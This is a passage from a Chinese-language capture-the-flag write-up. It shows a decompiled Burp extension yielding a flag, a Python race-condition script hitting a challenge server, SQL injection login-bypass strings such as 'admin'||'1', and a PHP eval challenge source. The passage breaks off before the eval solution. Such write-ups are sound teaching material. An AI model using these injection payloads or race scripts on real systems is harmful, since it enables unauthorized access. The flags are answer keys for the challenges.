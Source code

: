 下载得到一个jar文件，用jd-gui反编译后发现主要代码都在“BurpExtender.class”中，把变量a、b、c相关代码复制出来，执行输出后从a得到的d仍然是base64编码，再次解码得到flag
```
Syc{BurpExtender_Are_guns_F0r_Hack3rs}
```

### 4.性感潇文清，在线算卦
> 出题人：Ayrain
> 动作快点才能算到好卦。
> 地址:http://148.70.59.198:42534/

查看源码发现提示“条件竞争”，创建两个python脚本
```python
import requests

# 脚本一
i=0
while 1:
    r = requests.get("http://148.70.59.198:42534/?u=1&p=2")
    print(i)
    i+=1

# 脚本二
while 1:
    r = requests.get("http://148.70.59.198:42534/?u=1&p=1")
    page = str(r.text).split("<")[0].strip(" ").replace("Ding!你的算卦结果就在这儿啦！快来看！","")
    r = requests.get("http://148.70.59.198:42534/"+page)
    if r.text != 'you are too slow':
        print(r.text)
        break
```
先运行“脚本一”占用服务器资源，再运行“脚本二”就可以得到flag
```
Syc{You-4re-S0-f4st}
```
### 5.Easysql
> 出题人：cl4y
> 最近我做了一个小网站，我把flag放在里面了，不过我没有把登陆密码告诉任何人，所以你们是拿不到flag的！
> 地址:http://118.25.14.40:8100/

用户名输入“admin't”，发现可以注入。使用用户名“admin”，万能密码“admin'||'1”，或者用户名“secpulse'='”，密码“secpulse'='”，登录得到flag
```
Syc{sqL_inj3cti0n_1s_re4lly_fUn}
```

### 6.RCE me
> 出题人：evoA
> I don't think U can system RCE, prove to me
> 地址:http://114.116.44.23:40001/

访问地址返回源码
```php
<?php
error_reporting(0);
if(iset($_GET['code'])){
        $code=$_GET['code'];
            if(strlen($code)>40){
                    die("This is too Long.");
                    }
            if(preg_match("/[A-Za-z0-9]+/",$code)){
                    die("NO.");
                    }
            @eval($code);
}
else{
```
